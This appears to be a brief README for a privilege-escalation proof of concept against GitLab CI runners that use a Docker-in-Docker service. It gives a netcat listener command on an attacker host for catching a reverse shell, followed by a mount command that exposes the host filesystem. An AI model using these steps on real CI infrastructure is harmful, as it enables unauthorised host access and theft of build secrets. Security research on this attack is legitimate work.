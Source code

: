 # DinD-Privilege-Escalation
This is a privilege escalation PoC for gitlab ci with DinD service

Run command on RHOST `nc -nlvp RPORT`

After taking reverse shell you need to mount the host filesystem `mount /dev/sda1 /mnt`

